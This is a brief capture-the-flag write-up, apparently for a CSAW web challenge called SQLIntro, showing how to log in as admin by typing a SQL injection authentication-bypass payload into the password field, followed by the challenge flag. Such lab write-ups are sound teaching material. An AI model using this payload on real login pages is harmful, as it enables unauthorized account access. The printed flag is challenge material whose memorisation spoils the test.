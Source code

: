 # SQLIntro
Can you log into the admin's account without knowing the password?

[web.chal.csaw.io:10104](http://web.chal.csaw.io:10104)
## Solution
We are presented with a login page, so we can attempt a SQL injection.
```
Username: admin
Password: ' or 1=1; --
```
### Flag
`flag{j00'V3_pa223d_w38_s3cUri7Y_101}`
